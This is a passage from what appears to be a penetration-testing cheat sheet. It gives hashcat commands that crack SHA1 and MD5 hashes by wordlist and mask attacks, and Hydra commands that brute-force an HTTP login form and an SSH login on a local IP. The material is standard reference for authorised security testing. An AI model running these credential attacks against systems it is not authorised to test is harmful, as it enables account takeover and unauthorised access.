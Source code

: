 | Charset(s) | Description |
| --- | --- |
| \?l | abcdefghijklmnopqrstuvwxyz |
| \?u | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| \?d | 0123456789 |
| \?s | \!\"\#\$\%\&\'\(\)\*\+\,\-\.\/\:\;\<\=\>\?\@\[\]\^\_\`\{\|\}\~ |
| \?a | \?l\?u\?d\?s |
| \?b | 0x00 - 0xff |

Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status --optimized-kernel-enable B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt
```

You can find 'rockyou.txt' wordlist located at `/usr/share/wordlists/` directory or download it from [here](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Brute force a hash with a specified placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

<p id="hydra"/>

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -l admin -P rockyou.txt 192.168.8.5 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!" -o hydra_results.txt
```

When cracking a web form login you must specify **Login\=Login\:\<expected\_message\>** to distinguish between a successful login and a failed one. Each expected message can vary between web forms.

Keep in mind that the **username** and **password** request parameters can be defined differently.

Crack a Secure Shell login:

```fundamental
hydra -L users.txt -P rockyou.txt 192.168.8.5 ssh -o hydra_results.txt
```

You can find 'rockyou.txt' wordlist located at `/usr/share/wordlists/` directory or download it from [here](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

| Option(s) | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |